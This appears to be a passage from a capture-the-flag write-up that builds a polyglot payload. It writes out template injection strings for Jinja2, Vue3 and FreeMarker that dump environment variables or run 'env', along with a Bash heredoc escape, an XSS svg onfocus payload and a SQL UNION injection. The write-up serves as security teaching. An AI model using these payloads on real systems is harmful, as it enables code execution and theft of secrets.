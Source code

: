- BASH

**Nothing to do here :) the second payload already do the job ! **

```
EOF
env
```

- Template injection

Here is our three payloads : `{{cycler.__init__.__globals__.os.environ}}` , `{{''.constructor.constructor("return process.env")()}}` and `${"freemarker.template.utility.Execute"?new()("env")}` 

Jinja2 and Vue3 use the same syntax and use the two payloads in the same time will make crash the two interpreters... Except if the interpreter don't have to interpret it ! let's use if statements ! 

- Jinja2 if : `{%if CONDITION%}`
- Vue3 if  :` <div v-if="CONDITION">`

Hey ! this two syntax are different and then, we can used them in the same payload ! 

But why this should help us ? It's simple : If the condition is not met, the interpreter don't execute the code within the Conditional block and then we doesn't crash !

(Note: Here freemarker is a good guy because it have its own syntax)

```jinja2
{%if 0%}{{''.constructor.constructor("return process.env")()}}{% endif %}<div v-if=0>{{cycler.__init__.__globals__.os.environ}}</div>${"freemarker.template.utility.Execute"?new()("env")}
```

- Brainfuck

**It is a solo guy nothing to do here :). **

### Merging All payloads 

Let's merge all, without brainfuck in a first time.

here is our payloads  :

- XSS

```html
1//"; 
</script><svg autofocus onfocus="alert(FLAG)" contenteditable="True"/>
```

- SQLi

```sqlite
1--'
UNION SELECT flag from flag; --
```

- Bash

```bash
EOF
env
```
